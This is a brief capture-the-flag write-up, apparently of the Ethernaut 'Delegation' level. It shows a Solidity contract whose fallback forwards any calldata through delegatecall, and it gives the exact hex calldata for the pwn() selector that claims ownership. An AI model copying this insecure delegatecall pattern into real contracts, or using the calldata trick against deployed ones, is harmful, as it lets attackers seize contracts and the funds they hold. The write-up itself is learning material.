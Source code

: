 ## 6. Delegation

Goal for this exercise is:

- Claim ownership of the instance


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result, bytes memory data) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
~~~

Had to read about delecatecall and it took me long time to figure out the right hex data to add with transaction.

Method id can be calculated with `web3.eth.abi.encodeFunctionSignature({name: 'pwn', type: 'function', inputs: []})`.
And hex data still needs empty parameter `0000000000000000000000000000000000000000000000000000000000000000`?

Full hex data to include in metamask transaction was `dd365b8b0000000000000000000000000000000000000000000000000000000000000000`.
